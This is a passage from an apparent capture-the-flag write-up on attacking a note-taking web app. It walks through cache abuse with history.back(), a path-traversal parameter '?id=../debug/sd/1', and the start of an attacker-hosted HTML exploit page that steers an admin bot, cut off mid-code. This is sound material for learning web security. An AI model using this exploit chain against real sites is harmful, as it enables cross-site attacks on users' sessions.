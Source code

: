 Armed with this knowledge, let's try and test this scenario out.

**Step1: Let's make a note with HTML in it.**

![](https://i.imgur.com/ROrqrMK.png)

We know it will render with `note/:id` path because of `fetch` in `view.js`, **BUT** when opened using the `debug path`. We need the headers to do so.

![](https://i.imgur.com/KENFgJc.png)

> The 404 using the debug route

![](https://i.imgur.com/NIrKNC3.png)

> I changed the code to make it easy to debug with integers as `noteIDs`

**Step2: Abusing the cache to add headers to the `debug/sd/:id`**

Using the 2nd point in the client-side code review, let's include the `note1` using the debug path.

> Remember how we visited `debug/sd/1` above in previous step. Just after this, visit this path: `note/1?id=../debug/sd/1`

![](https://i.imgur.com/Fcr5G5G.png)

Time to abuse the `cache` as mentioned in the writeup referenced above. Open the console and type `history.back()`

![](https://i.imgur.com/EKpmeFV.png)

#### Scripting part1

We need to make the bot visit `debug_url` first and then `local_inclusion` url. We then make use of `history.go(-2)` to abuse the cache.

Code Snippet: Both these files are hosted on the attacker server.

```html=
<!-- test.html -->
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Attacker Page</title>
</head>
<body>
  <script>
    // Define a sleep function that returns a promise that resolves after a specified delay
    const sleep = (msec) => new Promise((resolve) => setTimeout(resolve, msec));

    const exploit = async () => {
      const note_id = "1";
      const baseUrl = 'http://127.0.0.1';
      const attacker_url =  'http://127.0.0.1:1337'
      const debug_path = "sd"
      const debug_url = `${baseUrl}/debug/${debug_path}/${note_id}`;
      const local_inclusion = `${baseUrl}/note/${note_id}?id=../debug/${debug_path}/${note_id}`;
      const goBackUrl = `${attacker_url}/goback.html`;

      try {
        console.log('Opening debug_url:', debug_url);
        const newWindow = window.open(debug_url, '_blank');
        await sleep(2000); // Delay for 2 seconds

        console.log('Navigating to local_inclusion:', local_inclusion);
        newWindow.location.href = local_inclusion;
```